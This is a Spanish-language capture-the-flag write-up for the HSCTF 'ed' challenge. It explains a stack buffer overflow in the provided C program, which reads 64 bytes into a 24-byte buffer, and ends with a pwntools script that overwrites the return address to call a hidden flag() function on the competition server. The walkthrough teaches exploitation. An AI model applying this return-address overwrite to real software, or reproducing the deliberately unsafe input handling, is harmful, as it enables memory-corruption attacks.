


# Enunciado

# Resolución

Nos proporcionan el siguiente código (chall.c) y su binario correspondiente (ed):
~~~
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int flag() {
	puts(getenv("FLAG"));
}

int main(int argc, char** argv) {
	char input[24]; 
	char filename[24] = "\0";
	char buffer[64];
	FILE* f = NULL;
	setvbuf(stdout, 0, 2, 0);
	setvbuf(stdin, 0, 2, 0);
	if (argc > 1) {
		strncpy(filename, argv[1], 23);
	}
	while (1) {
		fgets(input, 64, stdin);
		input[strcspn(input, "\n")] = 0;
		if (input[0] == 'Q') {
			return 0;
		} else if (input[0] == 'f') {
			if (strlen(input) >= 3) {
				strcpy(filename, input + 2);
			}

			if (filename[0] == '\0') {
				puts("?");
			} else {
				puts(filename);
			}
		} else if (input[0] == 'l') {
			if (filename[0] == '\0') {
				puts("?");
			} else {
				if (strchr(filename, '/') != NULL) {
					puts("?");
					continue;
				}

				f = fopen(filename, "r");
				if (f == NULL) {
					puts("?");
					continue;
				}

				while (fgets(buffer, 64, f)) {
					printf("%s", buffer);
				}
				fclose(f);
			}
		} else {
			puts("?");
		}
	}
}
~~~
En el mismo tenemos la fúnción int flag() que imprime la flag pero que nunca es llamada en el código, por lo que podemos tratar de obtener la dirección en la que se encuentra dicha función y modificar de alguna forma el flujo de programa para que se ejecute.

Primero, ejecutamos gdb-gef con el binario 'ed':

y buscamos la dirección de memoria de la función *flag()*. Lo hacemos con el comando ´print &flag´

Obtenemos la dirección **0x4011d2**

Ahora debemos de comprobar si el código ejecutable ha sido compilado sin alguna de las protecciones que impiden el desbordamiento de buffer. Lo hacemos con checksec:

Vemos que no tiene la protección *Stack Canary* ni *PIE* por lo que en principio parece vulnerable a desbordamientos de pila.

> Un **stack canary** es un valor de seguridad colocado en la pila justo antes de la dirección de retorno en una función. Este valor se elige de forma aleatoria al inicio de la ejecución del programa y se verifica al finalizar la función antes de que se produzca el retorno. Si el valor del canary se ha modificado, se asume que ha ocurrido un desbordamiento de búfer y el programa puede tomar medidas para prevenir un posible ataque como terminar abruptamente la ejecución, generar una excepción o informar del intento de ataque.

> Las **protecciones PIE** (Position Independent Executable) son técnicas de seguridad que hacen que el código y los datos de un programa se carguen en posiciones de memoria aleatorias cada vez que se ejecuta. Esto dificulta a los atacantes explotar vulnerabilidades de memoria, ya que no conocen de antemano la ubicación exacta de las estructuras de datos y funciones en el programa. 

Para conseguir el desbordamiento debemos de encontrar alguna forma de introducción de datos que permita que el programa se 'desborde'. Un desbordamiento generalmente se produce cuando un programa escribe más datos en un búfer de los que puede contener. 

En el código suministrado tenemos dos líneas que posibilitan un buffer overflow debido a la discrepancia en los tamaños de los búferes y la forma en que se maneja la entrada del usuario.

1. `char input[24];`: Aquí, se declara un array de caracteres `input` con un tamaño fijo de 24 bytes.

2. `fgets(input, 64, stdin);`: En esta línea, se utiliza la función `fgets` para leer hasta 64 caracteres de la entrada estándar (`stdin`) y almacenarlos en el búfer `input`. Sin embargo, como se definió que `input` solo tiene espacio para 24 bytes, si el usuario ingresa más de 23 caracteres (más el carácter nulo de terminación), esto resultará en un buffer overflow. Esto es porque `fgets` tratará de escribir más datos en `input` de los que puede contener de manera segura.

Ejecutándolo en local vemos que efectivamente al introducir una cadena larga y luego pulsar 'Q', obtenemos el desbordamiento de buffer que estamos buscando:

Vamos a utilizar el comando 'cyclic' de 'pwntools' para generar una cadena con un patrón conocido, luego la editaremos para añadir una 'Q' en la siguiente línea, es decir, replicamos en un fichero de texto la entrada con la que hemos conseguido el buffer overflow pero con un patrón de texto conocido que después podemos ubicar en memoria al ejecutarlo con una herramienta como 'gdb'

Para ejecutar el programa desde dentro de gdb con el fichero de texto generado, debemos de utilizar el comando ´r< cadena.txt´, obteniendo la siguiente salida:

En este caso nos interesa poder sobreescribir el stack pointer (registro **rsp**) que apunta a la cima de pila para ubicar en él la dirección de la función flag().

Para ello podemos usar la herramienta cyclic de nuevo para determinar exactamente en qué parte de la cadena de caracteres se encuentra "kaaalaaamaaanaaaoaaapaa" que es la parte que sobrescribió el stack pointer. Sabiendo la posición de dicha cadena en la cadena original tendremos el offset en el que necesitamos escribir la dirección 0x4011d2, que es la de la función flag().

Obtenemos un offset de 40.

Con todos estos datos, generamos un pequeño programa en python utilizando la librería *pwntools*

~~~
from pwn import *

conexion = remote("ed.hsctf.com", 1337)
offset = 40
direccion_funcion_flag = p64(0x4011d2)
conexion.sendline(b'a'*offset + direccion_funcion_flag)
conexion.recv()
conexion.sendline(b'Q')
print(conexion.recv())
~~~

Lo ejecutamos y conseguimos la bandera:

 
**Autor:** [Andr3sdelRio](https://twitter.com/Andr3sdelRio) 

- [URL original del reto](https://ctf.hsctf.com/challs). *Disclaimer:Probablemente offline después de finalizar la competición* 
 
